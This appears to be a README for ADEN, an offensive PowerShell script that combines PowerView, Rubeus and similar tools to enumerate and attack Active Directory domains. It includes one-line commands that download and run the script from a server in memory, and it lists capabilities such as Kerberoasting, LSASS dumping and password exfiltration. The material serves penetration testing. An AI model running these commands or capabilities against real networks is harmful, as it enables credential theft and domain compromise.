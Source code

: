 ## What is this?
ADEN is a local enumeration script for active directory environments, it is a carefully put together merge of several enumeration and exploitation projects:

- PowerView
- PowerMad
- ASREPRoast
- Get-GPPPassword
- PowerUpSQL
- New-GPOImmediateTask
- Invoke-Rubeus


It is to be used as an all-in-one enumeration script to use when you are in a domain user's session.\
\
Big credits to all the authors of the above mentioned tools! You are awesome.

## How to use?
If you are launching the script for the first time, the function ```Invoke-FullEnum``` is the recommended option as it will launch a full enumeration that will allow you to initially map the environment.\
\
From another domain user, the function ```Invoke-AdminEnum``` is recommended as it will launch only the relevant enumeration checks.
```powershell
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-FullEnum
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-AdminEnum
```
Keep in mind you also have access to all the functions of the above mentioned scripts. 

## What does it do?

ADEN currently supports the following attack scenarios:

- ASREPRoasting / Kerberoasting
- Unconstrained / Constrained / Resource Based Delegations
- LSASS Dumping
- Linked MSSQL Instances Abuse
- DACL Abuse
- Local Admin Access
- GPP / LAPS / LDAP Password exfiltration

It also enumerates the following, non-directly attack-correlated information:

- Current/Root Domain Info
- Current user memberships and privileges
- Kerberos and Password Policies
- Trust relationships
- Domain users, groups, computers, fileservers
